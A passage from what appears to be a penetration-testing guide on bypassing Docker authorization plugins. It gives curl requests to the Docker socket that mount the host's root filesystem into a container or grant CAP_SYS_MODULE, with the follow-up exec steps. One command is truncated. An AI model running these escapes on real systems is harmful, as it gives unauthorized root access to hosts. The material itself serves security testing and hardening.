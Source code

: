 Note how in this example we are using the `Binds` param as a root level key in the JSON but in the API it appears under the key `HostConfig`

#### Binds in HostConfig

Follow the same instruction as with Binds in root performing this request to the Docker API:

```
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Binds":["/:/host"]}}' http:/v1.40/containers/create
```

#### Mounts in root

Follow the same instruction as with Binds in root performing this request to the Docker API:

```
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}' http:/v1.40/containers/create
```

#### Mounts in HostConfig

Follow the same instruction as with Binds in root performing this request to the Docker API:

```
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "HostConfig":{"Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}}' http:/v1.40/containers/cre
```

### Unchecked JSON Attribute

It's possible that when the sysadmin configured the docker firewall he forgot about some important attribute of a parameter of the  like "Capabilities" inside "HostConfig". In the following example it's possible to abuse this misconfiguration to create and run a container with the SYS_MODULE capability:

```
docker version
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}' http:/v1.40/containers/create
docker start c52a77629a9112450f3dedd1ad94ded17db61244c4249bdfbd6bb3d581f470fa
docker ps
docker exec -it c52a77629a91 bash
capsh --print
#You can abuse the SYS_MODULE capability
```

The `HostConfig` is the key that usually contains the interesting privileges to escape from the container. However, as we have discussed previously, note how using Binds outside of it also works and may allow you to bypass restrictions.

### Disabling Plugin
